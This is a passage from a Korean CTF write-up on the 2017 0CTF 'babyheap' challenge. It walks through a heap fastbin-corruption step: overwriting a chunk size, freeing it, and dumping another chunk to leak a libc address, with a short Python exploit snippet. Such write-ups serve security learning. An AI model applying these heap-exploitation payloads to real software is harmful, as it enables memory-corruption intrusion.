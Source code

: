 (타란)

`ASLR` 땜시 큰 주소는 바뀌는데 생긴건 또이또이해요.

이제 `func_allocate(0x18)`을 두 번 해주면 처음엔 `1`이 할당되고 그 다음엔 `1_fd`가 가르키는 `4`에 할당이 돼요.

그 다음에 `4_size`를 원래대로 바꾸고 `free(4)`를 하고나서 `func_dump(2)`를 하면 `unsorted bin`이 출력돼서 `libc_leak`이 돼요!

```python
func_allocate(0x18) # 1, real_1
func_allocate(0x18) # 2, real_4

payload = "\x00"*0x18 # 3_buf
payload += p64(0x121) # 4_size
func_fill(3, payload)

func_free(4)
func_dump(2)
```

{: refdef: style="text-align: center;"}
![memory_03](/img/2017_0ctf/babyheap/16.png)
![libc_leak](/img/2017_0ctf/babyheap/17.png)
{: refdef}
